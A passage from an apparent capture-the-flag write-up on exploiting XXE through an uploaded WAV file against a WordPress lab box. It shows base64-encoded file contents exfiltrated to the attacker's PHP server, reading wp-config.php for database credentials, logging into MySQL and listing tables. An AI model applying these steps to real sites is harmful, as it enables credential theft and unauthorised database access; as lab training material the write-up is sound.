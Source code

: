 #### Arbitrary File Access

You can correct this by double checking your the file names in your `wav` file and the local one - and ensure your `php` server is in the right directory!

If you set that all correctly, once you upload your `wav` file you'll get this:

```
[Sat Aug 28 06:20:21 2021] 10.10.83.190:49060 [404]: (null) /?p=hVTbjpswEH3fr+CxlYLMLTc/[SNIP] - No such file or directory
```

All the characters between `?p=` and `- No such file or directory` is the base64 encoded result of the file we wanted.

At this point you can use the `php` decode like the example showed but I used CyberChef.

Note that with [CyberChef](https://gchq.github.io/CyberChef), you have to first decode it `From Base64` then `Raw Inflate` it. Simply decoding it yields weird and strange characters.

##### Getting the config file

Now that we have arbitrary file access, we can try grab `wp-config.php`. I know from doing other CTFs that the WordPress root installation is likely in `/var/www/html` and updating our `NAMEEVIL.dtd` to find `/var/www/html/wp-config.php` confirms my suspicions

Decode it and grab the credentials that come in the first few lines of it!

#### Database Access

Now that we have potential credentials for the database, we can try access it. I assumed that it would likely be `mysql` as that's typically the DB WordPress uses.

```bash
mysql -h $IP -u [REDACTED] -p
```

And success! This also means `mysql` is running on its _default_ port of 3306 which you can double check with `nmap -sV -p 3306 $IP`.

This also gives us the `mysql` version in the login messages!

We also know which database to use from `wp-config.php` - you can confirm this by using:

```sql
SHOW DATABASES;
```

Which shows the database from `wp-config.php`

```sql
USE [REDACTED];
```

Now check the relevant tables you want to enumerate with:

```sql
SHOW TABLES;
```

```
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
```